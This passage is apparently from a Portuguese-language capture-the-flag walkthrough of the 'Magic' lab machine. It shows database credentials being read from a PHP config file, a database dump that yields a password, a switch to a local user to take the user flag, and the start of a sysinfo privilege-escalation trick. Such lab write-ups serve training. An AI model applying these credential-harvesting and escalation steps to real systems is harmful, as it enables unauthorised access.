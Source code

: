 ```bash
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```
Quando eu dei um cat no arquivo db.php5 

Eu descobri o usuário de baixo privilegio da maquina e a senha do banco. 

```bash
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

Com esses dados, eu fiz um dump no banco  passando os mesmos :   -u (usuário) -p (senha)   como uma conexão comum via banco
fazendo isso eu descobri a senha do usuário.. 

```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

```bash
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ 
```

só pegar a flag de user

```bash
theseus@ubuntu:/home$ cd theseus
cd theseus
theseus@ubuntu:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
theseus@ubuntu:~$ cat user.txt    
```
Para pegar o root,  tem um truque do  Sysinfo  que pode ser encontrado na internet.

```bash
theseus@ubuntu:~$ sysinfo
```

quando rodar esse comando, automaticamente ele trará informações do sistema
por que se trata de um binário.

```bash
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/100/17.5                    bridge     PCI Express Root Port
/0/100/17.6                    bridge     PCI Express Root Port
/0/100/17.7                    bridge     PCI Express Root Port
/0/100/18                      bridge     PCI Express Root Port
/0/100/18.1                    bridge     PCI Express Root Port
/0/100/18.2                    bridge     PCI Express Root Port
/0/100/18.3                    bridge     PCI Express Root Port
/0/100/18.4                    bridge     PCI Express Root Port
/0/100/18.5                    bridge     PCI Express Root Port
/0/100/18.6                    bridge     PCI Express Root Port
/0/100/18.7                    bridge     PCI Express Root Port
/0/46              scsi0       storage    
```